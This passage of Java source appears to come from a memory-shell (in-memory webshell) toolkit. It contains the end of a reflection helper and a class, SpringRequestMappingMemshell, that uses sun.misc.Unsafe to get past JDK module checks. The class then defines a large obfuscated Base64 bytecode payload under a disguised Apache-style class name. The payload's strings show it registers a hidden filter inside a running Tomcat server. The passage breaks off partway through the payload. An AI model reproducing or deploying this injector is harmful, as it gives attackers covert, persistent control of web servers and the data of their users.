        return field.get(obj);
    }

    public static void setFieldValue(Object obj,String filedName,Object value) throws NoSuchFieldException, IllegalAccessException {
        Field field = getField(obj.getClass(),filedName);
        field.setAccessible(true);
        field.set(obj,value);
    }

}
```

```java
package mem;

import org.springframework.http.HttpStatus;
import org.springframework.http.ResponseEntity;
import org.springframework.web.bind.annotation.RequestParam;
import org.springframework.web.servlet.mvc.condition.PatternsRequestCondition;
import org.springframework.web.servlet.mvc.condition.RequestMethodsRequestCondition;
import org.springframework.web.servlet.mvc.method.RequestMappingInfo;
import sun.misc.Unsafe;

import java.io.IOException;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.util.Base64;
import java.util.Scanner;

public class SpringRequestMappingMemshell {
    String className = "org.apache.shiro.coyote.ser.std.ClassSerializer7ac151d6ebb64cfca2cd0f4f646adbf6";
    Class<?> clazz = null;

    static {
        new SpringRequestMappingMemshell();
    }

    public SpringRequestMappingMemshell() {
        try {
            Class unsafeClass = Class.forName("sun.misc.Unsafe");
            Field unsafeField = unsafeClass.getDeclaredField("theUnsafe");
            unsafeField.setAccessible(true);
            Unsafe unsafe = (Unsafe) unsafeField.get(null);

            Module module = Object.class.getModule();
            Class cls = SpringRequestMappingMemshell.class;
            long offset = unsafe.objectFieldOffset(Class.class.getDeclaredField("module"));

            unsafe.getAndSetObject(cls, offset, module);

            clazz = Class.forName(className, false, Thread.currentThread().getContextClassLoader());
            System.out.println("Class '" + className + "' already loaded. Skipping definition.");
        } catch (ClassNotFoundException e) {
            try {

                Method defineClass = ClassLoader.class.getDeclaredMethod("defineClass", byte[].class, Integer.TYPE, Integer.TYPE);
                defineClass.setAccessible(true);
                byte[] bytecode = Base64.getDecoder().decode("yv66vgAAADIBhAEAaG9yZy9hcGFjaGUvY29tbW9tcy9iZWFudXRpbHMvY295b3RlL2Rlc2VyaWFsaXphdGlvbi9zdGQvRW51bURlc2VyaWFsaXplcjAxZmE3MjQwNGYyODQwYmVhNzgwMWIzOTc0NjBjYzdlBwABAQAQamF2YS9sYW5nL09iamVjdAcAAwEADWdldFVybFBhdHRlcm4BABQoKUxqYXZhL2xhbmcvU3RyaW5nOwEAAi8qCAAHAQAMZ2V0Q2xhc3NOYW1lAQBPb3JnLmFwYWNoZS5zaGlyby5jb3lvdGUuc2VyLnN0ZC5DbGFzc1NlcmlhbGl6ZXI3YWMxNTFkNmViYjY0Y2ZjYTJjZDBmNGY2NDZhZGJmNggACgEAD2dldEJhc2U2NFN0cmluZwEAE2phdmEvaW8vSU9FeGNlcHRpb24HAA0BABBqYXZhL2xhbmcvU3RyaW5nBwAPARC4SDRzSUFBQUFBQUFBQUsxWEMzeGJWUm4vbnlUTlRkUHMxV3pkc282OTJDTjlwaHRkdDNVYnJPMEtLMnM2dHU1Qk53UnYwcHMyVzVxa3lVMjNqcWNLT3ZHSjRnUEZxVk9jRDhTeFFib3lnZmtDQlJFUkZFVEU5L3VCcUtnb1d2L24zaVJObTNiYjc2ZS9wdmVjZTg3My9KL3YrODUzSC92UEF3OEJXQ0UyQ1d5TkpYcDhhbHdOOW1xK1pHODRFZk1GWTRNeG5TOWF3cGZVdTMwdEVUV1o3TlFTWVRVU1BxUWxWcXZCRmF0V2REZG9nVUJEZlRBVVZGY0d1K3RDOWFHRytnYTFPeEJxVUNBRVp1MVRCMVJmUkkzMm1PenRNYlZiU3lpd0NwVHRVL2VyQ1YyVjhnY2ltdTY3TkJ6UjVWNlJnSDE5T0JyV0x4YXdlaXQyQ2RoYVl0MmF3TFQyY0ZUclNQVUZ0TVFPTlJEaFNtbDdMS2hHZHFtMGllK1pSWnZlRzA0S2JHdi9QenUwemdVRkRpZHNtQ293MTlzK29XdnJwTDNpa01Ec1NmYWxrT2xTaUpzMG95U2RlaUljN1dsT2hTTUdQck9jS0pOcWJIRnlTai9IVTFMT0hIaUtZY0Zjd3FYRzQxcTBXNkRHVzBoWVViQ1UwVUlSODNDQlZEU2ZRTy9YQmwxWWFJcGNKT0RRWXlheHdFeHZvUWp5WG9nbGtuY3BlZnU2Vndrc095L2RaRndPcjVOS0t1VE1VRmRGeExZeFZyeDdteXZHbzdaT3dCSU04TEczV2FDa1d3c3hCSXdOb2tmNnRyWkNEaGRXWUtWRStDTEtQU2lna0c1UGhlUjNqNUsySGd4cWNUMGNpeXBZVGJJZzFSdUNEdnFDaWNHNEh2TzFoT085eEloSE1LQW02clBiNDVpNUxXaUo2T1AvSGdWMUdSWGpoQ2hvRXBqU3FhdkIvWDQxbm9sU2ExTnJwd1BNdTVJZVRXK0xKblUxR3VSeXhhUW9qcmZNaFV0eG1SUE4yQ3l3WUF4Qk1xNEZmWjFhTUtIcFc3VEJUcjRwdUZ4ZytuakJDdHA1MEZUZlBLaHJkTVBtSlVvdWRHQ3JFMzVjWVNJOGdUbTdaQXh2ZDJJTE9za2tNMVdTdHBtVVNTMllTb1QxUVI5Vkc2UTdzVXRhdVpzSDBSMjdOQnhWSXd4WWVkUlNWeGYyeU0yOUFoZU1ZL2RyeWFUYW8yMEs5MmhKblRoYjZRMmYvazJySExoR29Qd3MxQXBVZ1JXVGgrTWtPaVNnUVNjQ1lDTFpJMXEwUis4MUNsQ2JDeUgwU0VqNGJrL0Z1MVZkTTZPSzBVY0g5MkcvNUtKYk13M3hmYXJlNjJzTzk3UkZkYTFIbm42VWJOMkdEaGZpRXR3QStpVUdiUVRCd0RMcFJBeTZ6SUMyU1ZKdFFGSWNZTERvc1ozTTlVU0xtdFJjR0pRcDZBZXJqU3ZBaFliNjFtalFxSlJsNDFJcEk0bFdteFNKc1NWbGEyQ2ZGcFFnMjAweEFqTW15RU9aQ0EzTXhBQkRwV2hBamFTMFRFelZwdlJ3cExiWllIWGdGaGJxY2N3SzNrTFZvVmlpUSswajA5SnpWSXBzR3I4VnR6cHhHRzhUY0RKSU01WTc4QTRhdjdlQVhNRzdCSXBKNTlmMDNoaVBjT01FV2dyWjh2VW10RkNFT1BoTUNUVGdOcnhIR3ZCZXB2WGVRcmdVdkU5Z3ptVHNDajVBUE1QUmdkaCt1cnpXVzhnL2djaUt3aVVYN3NDSG5QZ2dQandtZzgxZEJSOHhNemhURXQzZWlYRDhLRDdteEJGOFhHQ3Fab0M0STFQYkhmZ0VZeVdaaXRiMmhaUEIydWFtenRac0RCSG51eGh1VWUzQWFHMGFleEhrN0R1R1QwdVVQa04zVGZFT2ZJNUhsaXVTdE1zaE0xL2U3Z0txUkdMc3hkOXBqdHUxL3BUTXc4bjNrM0ZLMHdvSlROa3R2V280YXR5L0MwZXROSzNYdzZxMEpLL29IeDlMRllsb1BXcWtLUmhrUmNpak9zRzZIdUkvbmM4L3dPM21TWWNIdEszTXhiR2laUmFwaWNUV0ZQTjVnY2tUanZsa2hXMUtKTlJCcnNkVE91SFgxRDZaajBrcUpKZkE0Z0t2ZW5VOTd0dk1SNmRKSTFPUXRZZTFiV3B5REdKMDVWeVlNaWVUWTFFVVdIUk9vSm5uUVFtcVdaMG54NXgrSkxLbVZKek5qM0UyT1JJNVl5clBneTFuMWZ5emU2dmdFZU5LUEt0ekNyNXUzQ0tUZXFYZ01ZSGw1K21NZ204eVJNN1hCUVhmTXNMdjdPZXQ0TnNFL3F3UnBPQTdiTHpPTHpBVlBNT3M3TlZrRnlycnNBdmZNOXV2WjgyNnVkblljZUg3OEpiZ0NUelA3RGVKZDhsUzc4SUxKdlVQZVd6QldGUW5Ra3pzOGpGdGNLK2E2SlI0c0Zxc3E5amp3by93WTNrLy9jUXM0SjNaVUYvaVBXdVFtTUh1d3Mvd2MybklMM2k3a2ZzS05VR2pkV25ocjB3TGY1Mjc5alpwMld0dmdvdEZ0aG0veGU5a3kvbDdGMWFoUWM3K3lKQ05xNE1SOXVRTy9NblUwS1NUSTVDU2wvdTVldGxjN2Zzei9sS0NwL0JYNW1TMkNwdDl2b0Nuc0JiblBnSCtoci9Ma3ZrUGFZcmJoUnJVeXRtL2FFZHlqQjNMSjdCamdsdURUY1MvOFI5cHlBaWhqbWVSU2pxRWtFQ05PUEcwOGMyU0Z5Z3Axc1ErYlRRNEJMKzY1dVJyMjlHYmlCMlFyYXJaN3duRktlekNJV3Q4ZjBxTkpHV3pNb0VsZTF6Q0tVcDQyd2lYR1ZXNzJXaEpOR1puMFdBb1gwRS9NaHZyWEdLcW1GYUNKOFYwMGlkVGdXVG1vNlBNMnpaaEx5UktoWnN4SldabXUvbXg4aFJSeHFKMVFNN0hXVGphdklvNXd1TVVzOFZjZVNrdU5YcXFYSEs1eEFXeVFYdGF6SGZoT2x6UFV4RUxxVlAyWDM2eFdHRFQvMzU3U1RqdkVVdEs4TGhZT2tFVnlKRG5uY3p5UEZmYnR1WnRWTWo2SEZFUEhaS3R0WmJwNjJTWHhxOHhLNEVzdk52TlJFazRoSStoWnJJMHAwSWh1YkxDVE5JY3hVV3lhVFZlSElMeUZoVTZucW1Wc1dnbzNHTmN1NjVRM2dxcjlOazVES05wWld5UUZXVjlNSkw1NGk4SzlXKzVjdEFoMXJQZENhNVExVldoUVBmcUJrMWJWY2ZtVXBEQUxtL3B1TzRRRzNtcEhVZ0d1OVhBdGtQYjkyK0o3K3hxY29obUxHSW0yVUE2RktGWWZtSUNjTWlQWldOY2FJeEMxajVqZk1FWVN6amp0ejJmeFh4cmdwVXp3RjA1aEdtVmJ0RjBQNTdqMEhJL1hyeVh5eFk0K1pRSkM4eEhLUmFRSFhDWkxCeW5HSUw1bFo4UkY2RTVrcmF1c21vSU04ZktPNDJ5cmlITVBvSHlOQmFjd0dJKzAxaDJDcFVuVVQycWF5b05BaFpUK29Yd1lZbWhyOHlVbWRFblp6Tm9DM3NWV1UweW1qZGtOQmRYVmxtckhocEMvZkdjU0x0aDd2SThVY1U1VWNWVVVtZUlZclhNaUhxV0hEYU9WYVd0cDlEV1VUUHZEaWkyWTdBVm5jYVdMc1B3YmFXdFE5aVJ4cFUxVldsY2RieERITStvOEdJTjdYY2Fpb3I0cktHb1ducmo0MDRkS3ZpMUxvMm81NTZkcTJ2UlNPb0ttclFPNncyL3EzS0dWZEdqT2tOcUZTN0dKYVJwNFp4VUk1Z0dtd0tMZ28xQzRmZWtmSXh3SzMrTmsyWXhndG13WmhZbDFSb2pSTHdaSittUG9iRk90SmUrL2hRMGYzVWwvYkx5RVU2ajd6UmlYYmJxTkJKRFNFMmZuc2JCTks1dEo0dS9TbnBxUVNVOXkzbzZuK2NQZ21maGlvTSt6YUpYbGJTMGhsN1YwZ3ZwOFVMU091anh4WGhkNWl3M0dNRm9JY1hWbkFuRE96Y3NJMlNqeFg3K1RKdHBMSXNUQ1dtMGFETWlIVGhJbzk5OENtLzNWNWUrVTV6QnU5TzR2WnJqKzlPNHM2TW1qYU9sbjdROWlNTmQxdEtObmR5cTRjdVJMbXNsNTNlZWdaOStyTzBvL1pUQm5zWm5HMjBlbTJTNU81L0ZZeXZnS1dxMDBYa0wvelpnSXcxclFqLzBIQWdyZVhBeW15ellSRWRiVWM0UDdBM29JT1ZsWEczajgzSjZ0SVU4Zm5LMVl3QmJEV0EyRTd4eUFuTURialFnV29PYjhBWks4VFAwNVpxTm5EV1p0U2JHNkJzemdYSVFieUtJRXNBQjNKd0RzRUtHeDBianlMTUFqdUFpR1JyR3U4UlRycjFLOHMvTGtPSElGZHlETDVnQVcrNG12RFJMektzNmd5Y2FiZFZuOEdSamtjZFdlUitlRzhZUExIZ0VMK1c5Y2ZKaUdqKzlBODk3Yk1QNHBVQ2p2ZEpqWTRJUDR6Y1dwUEdIUnFYU28xalRlS2xSOGRoTFh4N0dLeFk4aXNWeWZocVdMZ2JiMFRSZUhjSS9QVW9hcncyemxETXViL1hZM01MaVVZYUYxWXJUZUxwclNOZ2FIVG4rTXpnc1Q2MzRHS1kxT2s4TGU1ZkhPU1NLSC9ZVWV4eHBNV1UzUjVzeEZnMkxHUUluVUcxbEFJdFphVkh1S1U2TGVkbU5Ta20rZ0NmLzBpbXhTRzdtNkNYNWhWdzVocEthcXVwaHNVd2FOYVhSbm4yNWwxYmVocU80aXpOelBBbDV0Yy9JQmNNK3pPVnpCNE4xSjhOaU43UC9TdTUxOGJEM1lCdjJNZ2V1WWxCZnphN29Ha29JVUlaR0tVR3E2YWJNRUlZUnhwY281Um5zeC9Pc3FTK2pUMWdSRjNiMGk2bElVVk5TdUtHTGNod3dndWhtMW95ajFIMGZBNmFZVXB5NG4rZzdLVHVCSVp4aVdOMkw3Wm5kTlhpYzhoK2diWnNKN21rR2tVSlpEbktzNXhwUFBsdUJPUHNpSHBRVmlMT0g4TERNVzg3TzBESXI3S0lNWDhaWEdFRXVNUjFmeGRjWU55MUcvWGVNMERXSFVYWWVWZkFOQlk4cmVFTEJrd3FlWWhRQ0k2eEF4Wk50SzJ6ZUdLRGZmUTBsQ282TUVDeDdJU25EVkdsbUZCY2JNV3huMitJVmxiU1RqYThaeFhnbFV5YjYzYUxPU0hPM1dKbkpici9NYnBuMlpuNVhtZm05a2IvamZxT2tkTlM0UmIzMVFSbGt0d3VPUjBpUUtSRnUwWkF2SlZzajhtVVlCYnM2cnpqT2xhRGlXcWJlZFZ5OW51WHVCcGIvRzFrUmJqS083bUx1SzFnbXFvd01yOGNHWTJibHZsZFVHL2xmaXhaUnc4T1JaYk0vZHozMGk5cGMxdk4rNjVPcG5aL1NPOFhxREJpcmpDckJzeHU5WTgwTDhaYThDMUhrQkF1eFJxd2RyUStDOTRWb3pMVUxWUWJ0Qk1JTzV6VUdXV0VPc1M3SDJHcW9ZWVZ5aXcwblVlNFdsNXpFNG5OMUJDTFhmYmhZSkwyWUIvd1h1dU83LzhZWkFBQT0IABEBAAY8aW5pdD4BABUoTGphdmEvbGFuZy9TdHJpbmc7KVYMABMAFAoAEAAVAQADKClWAQATamF2YS9sYW5nL0V4Y2VwdGlvbgcAGAwAEwAXCgAEABoBAA9ieXBhc3NKREtNb2R1bGUMABwAFwoAAgAdAQAKZ2V0Q29udGV4dAEAEigpTGphdmEvdXRpbC9MaXN0OwwAHwAgCgACACEBAA5qYXZhL3V0aWwvTGlzdAcAIwEACGl0ZXJhdG9yAQAWKClMamF2YS91dGlsL0l0ZXJhdG9yOwwAJQAmCwAkACcBABJqYXZhL3V0aWwvSXRlcmF0b3IHACkBAAdoYXNOZXh0AQADKClaDAArACwLACoALQEABG5leHQBABQoKUxqYXZhL2xhbmcvT2JqZWN0OwwALwAwCwAqADEBAAlnZXRGaWx0ZXIBACYoTGphdmEvbGFuZy9PYmplY3Q7KUxqYXZhL2xhbmcvT2JqZWN0OwwAMwA0CgACADUBAAlhZGRGaWx0ZXIBACcoTGphdmEvbGFuZy9PYmplY3Q7TGphdmEvbGFuZy9PYmplY3Q7KVYMADcAOAoAAgA5AQAmKClMamF2YS91dGlsL0xpc3Q8TGphdmEvbGFuZy9PYmplY3Q7PjsBACBqYXZhL2xhbmcvSWxsZWdhbEFjY2Vzc0V4Y2VwdGlvbgcAPAEAH2phdmEvbGFuZy9Ob1N1Y2hNZXRob2RFeGNlcHRpb24HAD4BACtqYXZhL2xhbmcvcmVmbGVjdC9JbnZvY2F0aW9uVGFyZ2V0RXhjZXB0aW9uBwBAAQATamF2YS91dGlsL0FycmF5TGlzdAcAQgoAQwAaAQAQamF2YS9sYW5nL1RocmVhZAcARQEACmdldFRocmVhZHMIAEcBAAxpbnZva2VNZXRob2QBADgoTGphdmEvbGFuZy9PYmplY3Q7TGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvT2JqZWN0OwwASQBKCgACAEsBABNbTGphdmEvbGFuZy9UaHJlYWQ7BwBNAQAHZ2V0TmFtZQwATwAGCgBGAFABABxDb250YWluZXJCYWNrZ3JvdW5kUHJvY2Vzc29yCABSAQAIY29udGFpbnMBABsoTGphdmEvbGFuZy9DaGFyU2VxdWVuY2U7KVoMAFQAVQoAEABWAQAGdGFyZ2V0CABYAQAFZ2V0RlYMAFoASgoAAgBbAQAGdGhpcyQwCABdAQAIY2hpbGRyZW4IAF8BABFqYXZhL3V0aWwvSGFzaE1hcAcAYQEABmtleVNldAEAESgpTGphdmEvdXRpbC9TZXQ7DABjAGQKAGIAZQEADWphdmEvdXRpbC9TZXQHAGcLAGgAJwEAA2dldAwAagA0CgBiAGsBAAhnZXRDbGFzcwEAEygpTGphdmEvbGFuZy9DbGFzczsMAG0AbgoABABvAQAPamF2YS9sYW5nL0NsYXNzBwBxCgByAFABAA9TdGFuZGFyZENvbnRleHQIAHQBAANhZGQBABUoTGphdmEvbGFuZy9PYmplY3Q7KVoMAHYAdwsAJAB4AQAVVG9tY2F0RW1iZWRkZWRDb250ZXh0CAB6AQAVZ2V0Q29udGV4dENsYXNzTG9hZGVyAQAZKClMamF2YS9sYW5nL0NsYXNzTG9hZGVyOwwAfAB9CgBGAH4BAAh0b1N0cmluZwwAgAAGCgByAIEBABlQYXJhbGxlbFdlYmFwcENsYXNzTG9hZGVyCACDAQAfVG9tY2F0RW1iZWRkZWRXZWJhcHBDbGFzc0xvYWRlcggAhQEACXJlc291cmNlcwgAhwEAB2NvbnRleHQIAIkBABpqYXZhL2xhbmcvUnVudGltZUV4Y2VwdGlvbgcAiwEAGChMamF2YS9sYW5nL1Rocm93YWJsZTspVgwAEwCNCgCMAI4BABNqYXZhL2xhbmcvVGhyb3dhYmxlBwCQAQANY3VycmVudFRocmVhZAEAFCgpTGphdmEvbGFuZy9UaHJlYWQ7DACSAJMKAEYAlAEADmdldENsYXNzTG9hZGVyDACWAH0KAHIAlwwACQAGCgACAJkBABVqYXZhL2xhbmcvQ2xhc3NMb2FkZXIHAJsBAAlsb2FkQ2xhc3MBACUoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvQ2xhc3M7DACdAJ4KAJwAnwwADAAGCgACAKEBAAxkZWNvZGVCYXNlNjQBABYoTGphdmEvbGFuZy9TdHJpbmc7KVtCDACjAKQKAAIApQEADmd6aXBEZWNvbXByZXNzAQAGKFtCKVtCDACnAKgKAAIAqQEAC2RlZmluZUNsYXNzCACrAQACW0IHAK0BABFqYXZhL2xhbmcvSW50ZWdlcgcArwEABFRZUEUBABFMamF2YS9sYW5nL0NsYXNzOwwAsQCyCQCwALMBABFnZXREZWNsYXJlZE1ldGhvZAEAQChMamF2YS9sYW5nL1N0cmluZztbTGphdmEvbGFuZy9DbGFzczspTGphdmEvbGFuZy9yZWZsZWN0L01ldGhvZDsMALUAtgoAcgC3AQAYamF2YS9sYW5nL3JlZmxlY3QvTWV0aG9kBwC5AQANc2V0QWNjZXNzaWJsZQEABChaKVYMALsAvAoAugC9AQAHdmFsdWVPZgEAFihJKUxqYXZhL2xhbmcvSW50ZWdlcjsMAL8AwAoAsADBAQAGaW52b2tlAQA5KExqYXZhL2xhbmcvT2JqZWN0O1tMamF2YS9sYW5nL09iamVjdDspTGphdmEvbGFuZy9PYmplY3Q7DADDAMQKALoAxQEAC25ld0luc3RhbmNlDADHADAKAHIAyAEADWdldEZpbHRlck5hbWUBACYoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvU3RyaW5nOwEAAS4IAMwBAAtsYXN0SW5kZXhPZgEAFShMamF2YS9sYW5nL1N0cmluZzspSQwAzgDPCgAQANABAAlzdWJzdHJpbmcBABUoSSlMamF2YS9sYW5nL1N0cmluZzsMANIA0woAEADUAQAgamF2YS9sYW5nL0NsYXNzTm90Rm91bmRFeGNlcHRpb24HANYBACBqYXZhL2xhbmcvSW5zdGFudGlhdGlvbkV4Y2VwdGlvbgcA2AEAEWdldENhdGFsaW5hTG9hZGVyDADaAH0KAAIA2wwAygDLCgACAN0BAA1maW5kRmlsdGVyRGVmCADfAQBdKExqYXZhL2xhbmcvT2JqZWN0O0xqYXZhL2xhbmcvU3RyaW5nO1tMamF2YS9sYW5nL0NsYXNzO1tMamF2YS9sYW5nL09iamVjdDspTGphdmEvbGFuZy9PYmplY3Q7DABJAOEKAAIA4gEAL29yZy5hcGFjaGUudG9tY2F0LnV0aWwuZGVzY3JpcHRvci53ZWIuRmlsdGVyRGVmCADkAQAHZm9yTmFtZQwA5gCeCgByAOcBAC9vcmcuYXBhY2hlLnRvbWNhdC51dGlsLmRlc2NyaXB0b3Iud2ViLkZpbHRlck1hcAgA6QEAJG9yZy5hcGFjaGUuY2F0YWxpbmEuZGVwbG95LkZpbHRlckRlZggA6wEAJG9yZy5hcGFjaGUuY2F0YWxpbmEuZGVwbG95LkZpbHRlck1hcAgA7QEAPShMamF2YS9sYW5nL1N0cmluZztaTGphdmEvbGFuZy9DbGFzc0xvYWRlcjspTGphdmEvbGFuZy9DbGFzczsMAOYA7woAcgDwAQANc2V0RmlsdGVyTmFtZQgA8gEADnNldEZpbHRlckNsYXNzCAD0AQAMYWRkRmlsdGVyRGVmCAD2AQANc2V0RGlzcGF0Y2hlcggA+AEAB1JFUVVFU1QIAPoBAA1hZGRVUkxQYXR0ZXJuCAD8DAAFAAYKAAIA/gEAMG9yZy5hcGFjaGUuY2F0YWxpbmEuY29yZS5BcHBsaWNhdGlvbkZpbHRlckNvbmZpZwgBAAEAF2dldERlY2xhcmVkQ29uc3RydWN0b3JzAQAiKClbTGphdmEvbGFuZy9yZWZsZWN0L0NvbnN0cnVjdG9yOwwBAgEDCgByAQQBAA1zZXRVUkxQYXR0ZXJuCAEGAQASYWRkRmlsdGVyTWFwQmVmb3JlCAEIAQAMYWRkRmlsdGVyTWFwCAEKAQAdamF2YS9sYW5nL3JlZmxlY3QvQ29uc3RydWN0b3IHAQwKAQ0AvQEAJyhbTGphdmEvbGFuZy9PYmplY3Q7KUxqYXZhL2xhbmcvT2JqZWN0OwwAxwEPCgENARABAA1maWx0ZXJDb25maWdzCAESAQANamF2YS91dGlsL01hcAcBFAEAA3B1dAEAOChMamF2YS9sYW5nL09iamVjdDtMamF2YS9sYW5nL09iamVjdDspTGphdmEvbGFuZy9PYmplY3Q7DAEWARcLARUBGAEAD3ByaW50U3RhY2tUcmFjZQwBGgAXCgAZARsBACBbTGphdmEvbGFuZy9yZWZsZWN0L0NvbnN0cnVjdG9yOwcBHQEAFnN1bi5taXNjLkJBU0U2NERlY29kZXIIAR8BAAxkZWNvZGVCdWZmZXIIASEBAAlnZXRNZXRob2QMASMAtgoAcgEkAQAQamF2YS51dGlsLkJhc2U2NAgBJgEACmdldERlY29kZXIIASgBAAZkZWNvZGUIASoBAB1qYXZhL2lvL0J5dGVBcnJheU91dHB1dFN0cmVhbQcBLAoBLQAaAQAcamF2YS9pby9CeXRlQXJyYXlJbnB1dFN0cmVhbQcBLwEABShbQilWDAATATEKATABMgEAHWphdmEvdXRpbC96aXAvR1pJUElucHV0U3RyZWFtBwE0AQAYKExqYXZhL2lvL0lucHV0U3RyZWFtOylWDAATATYKATUBNwEABHJlYWQBAAUoW0IpSQwBOQE6CgE1ATsBAAV3cml0ZQEAByhbQklJKVYMAT0BPgoBLQE/AQALdG9CeXRlQXJyYXkBAAQoKVtCDAFBAUIKAS0BQwEABGdldEYBAD8oTGphdmEvbGFuZy9PYmplY3Q7TGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvcmVmbGVjdC9GaWVsZDsMAUUBRgoAAgFHAQAXamF2YS9sYW5nL3JlZmxlY3QvRmllbGQHAUkKAUoAvQoBSgBrAQAeamF2YS9sYW5nL05vU3VjaEZpZWxkRXhjZXB0aW9uBwFNAQAQZ2V0RGVjbGFyZWRGaWVsZAEALShMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9yZWZsZWN0L0ZpZWxkOwwBTwFQCgByAVEBAA1nZXRTdXBlcmNsYXNzDAFTAG4KAHIBVAoBTgAVAQASZ2V0RGVjbGFyZWRNZXRob2RzAQAdKClbTGphdmEvbGFuZy9yZWZsZWN0L01ldGhvZDsMAVcBWAoAcgFZCgC6AFABAAZlcXVhbHMMAVwAdwoAEAFdAQARZ2V0UGFyYW1ldGVyVHlwZXMBABQoKVtMamF2YS9sYW5nL0NsYXNzOwwBXwFgCgC6AWEKAD8AFQEACmdldE1lc3NhZ2UMAWQABgoAPQFlCgCMABUBABtbTGphdmEvbGFuZy9yZWZsZWN0L01ldGhvZDsHAWgBAAg8Y2xpbml0PgoAAgAaAQAPc3VuLm1pc2MuVW5zYWZlCAFsAQAJdGhlVW5zYWZlCAFuAQAiamF2YS9sYW5nL3JlZmxlY3QvQWNjZXNzaWJsZU9iamVjdAcBcAoBcQC9AQAJZ2V0TW9kdWxlCAFzAQATW0xqYXZhL2xh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